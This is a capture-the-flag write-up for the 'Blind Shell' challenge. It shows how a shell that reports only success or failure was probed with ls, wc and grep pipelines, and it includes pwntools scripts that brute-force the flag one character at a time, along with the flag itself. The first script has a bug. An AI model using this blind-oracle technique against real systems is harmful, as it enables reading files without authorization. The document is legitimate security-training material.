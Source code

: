 # Blind Shell

Category: misc
Points: 345

## Problem

It's simple enough, either you've succeeded or you've failed.
Connect here: nc tasks.kksctf.ru 30010

## Writeup

In this challenge we are dealing with a particular shell.
When we execute a command we have a fixed output which consists of
"Success!" in case the execution is successful and "Failed!"
on the other hand.

For example:

```
$cat
Success!
$c
Failed!
```

The idea is to find files in the current directory, using the terminal output to our advantage.
With the aid of ls, wc, and grep, it’s possible to see inside the current directory the number of files, and also their names

To see how much files are in the current directory we’ve run this piece of commands:

```
$ ls | wc -l | grep 1
Failed!
$ ls | wc -l | grep 2
Failed!
$ ls | wc -l | grep 3
Success!
```

And to see the name of each file:<br>
First we’ve looked with what letter each filename begins:

```
$ ls | grep ^f | wc -l | grep 1
Success!
$ ls | grep ^v | wc -l | grep 1
Failed!
$ ls | grep ^m | wc -l | grep 1
Success!
$ ls | grep ^s | wc -l | grep 1
Success!
```

So there are 3 items into the directory, respectively beginning with ’f’, ‘m’ and ‘s’.<br>
Second, using this information, we’ve run the following script, in order to know their full names: 

```
$ ls | grep ^f | wc -l | grep 1
Success!
$ ls | grep ^fl | wc -l | grep 1
Success!
$ ls | grep ^fla | wc -l | grep 1
Success!
$ ls | grep ^flag\.t | wc -l | grep 1
Success!
$ ls | grep ^flag\.txt | wc -l | grep 1
Success!
```

The obtained files were:
    -flag.txt: 	text file
    -server.py: 	python script
    -maybehere: 	directory

The same procedure is used to read from flag.txt:

```
from pwn import *

alphabet = '_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}!"#()+,-/:;<=>?@[]^'

conn = remote('tasks.kksctf.ru', 30010)
conn.sendline("cat flag.txt | grep ^L")
conn.recvline()

read = 'L'

while True:
    for i in alphabet:
        test = read + i
        print(test)
        conn.sendline("cat flag.txt | grep " + test)
        if chr(r[2]) == 'S':
            read = test
            break


print("Here's your content: ", read)
```
After launching the script we obtain:

```
Look_around,maybe_here
```

The suspect was that inside maybehere directory there was something interesting; 
so we’ve tried to change the current directory into ./maybehere, but we’ve noticed 
that ‘cd’ command actually doesn’t change directory - in fact, we’ve tried to type ‘cd /’, 
but the current working directory remains the same, even if it returns “Success!”.
Again, thanks to the superpowers of ls, cat and grep, we’ve looked that into 
/maybehere there was the file flag.txt; so we’ve run the same script in order to get its content,
and we’ve finally discovered the flag

Script:


```
from pwn import *

alphabet = '_0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ{}!"#()+,-/:;<=>?@[]^'

conn = remote('tasks.kksctf.ru', 30010)
conn.sendline("cat maybehere/flag.txt | grep kks{")
conn.recvline()

flag = 'kks{'

while True:
    for i in alphabet:
        test = flag + i
        print(test)
        conn.sendline("cat maybehere/flag.txt | grep " + test)
        r = conn.recvline()
        print(r)
        if chr(r[2]) == 'S':
            flag = test
            break

    if flag[-1] == '}':
        break

print("Here's your flag: ", flag)
```

### Flag
```kks{Bl1nD_sH311_s2cKs_b4t_Y0U_ar3_amaz19g}```
